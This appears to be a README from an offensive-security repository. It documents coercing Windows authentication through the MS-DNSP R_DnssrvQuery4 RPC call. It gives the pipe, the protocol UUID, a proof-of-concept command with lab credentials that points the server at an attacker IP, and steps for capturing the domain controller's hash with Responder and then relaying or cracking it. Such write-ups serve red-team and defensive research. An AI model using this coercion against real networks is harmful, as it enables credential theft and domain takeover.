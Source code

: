 # MS-DNSP - Remote call to R_DnssrvQuery4 (opnum 16)

## Summary

 - **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

 - **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\DNSSERVER`

 - **Function name**: [`R_DnssrvQuery4`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/952427b0-ba2c-4f8b-ab7f-62003018c8b6)

 - **Function operation number**: `16`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvQuery4`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/952427b0-ba2c-4f8b-ab7f-62003018c8b6) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvQuery4('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvQuery4(
      [in]                            DWORD                  dwClientVersion,
      [in]                            DWORD                  dwSettingFlags,
      [in, unique, string]            LPCWSTR                pwszServerName,
      [in, unique, string]            LPCWSTR                pwszVirtualizationInstanceID,
      [in, unique, string]            LPCSTR                 pszZone,
      [in, unique, string]            LPCWSTR                pwszZoneScopeName,
      [in, unique, string]            LPCSTR                 pszOperation,
      [out]                           PDWORD                 pdwTypeId,
      [out, switch_is(*pdwTypeId)]    DNSSRV_RPC_UNION*      ppData
    );
```

## References

 - Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

 - Documentation of function `R_DnssrvQuery4`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/952427b0-ba2c-4f8b-ab7f-62003018c8b6